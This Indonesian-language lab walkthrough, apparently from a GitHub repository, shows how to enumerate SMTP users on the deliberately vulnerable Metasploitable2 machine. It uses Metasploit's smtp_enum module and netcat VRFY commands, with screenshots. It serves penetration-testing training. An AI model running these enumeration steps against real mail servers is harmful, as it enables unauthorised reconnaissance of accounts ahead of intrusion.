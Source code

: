 # Exploit Port 25 (SMTP)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%201.JPG)

- Cari modul untuk enumerasi user SMTP
```sh
search smtp_enum
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%202.JPG)

- Dari hasil pencarian hanya ditemukan 1 modul, jadi langsung kita gunakan modul tersebut
```sh
use 0
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini semua parameter sudah terisi secara default kecuali parameter `RHOSTS`
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%204.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%205.JPG)

- Sebelum menjalankan exploit buka terminal baru dan jalankan netcat dengan listen port 25
```sh
nc <IP_metasploitable2> 25
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%206.JPG)

- Jalankan modul tersebut
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%207.JPG)

- Setelah netcat terhubung, verifikasi masing-masing user apakah dia terdaftar di SMTP server atau tidak. Jika statusnya reject maka user tersebut tidak terdaftar. Ketikkan quit untuk menghentikan `netcat`
```sh
VRFY mysql
VRFY daemon
VRFY postgresql
VRFY postgres
VRFY msfadmin
quit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%208.JPG)

- Modul berhasil dihentikan setelah netcat ditutup

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SMTP/smtp%209.JPG)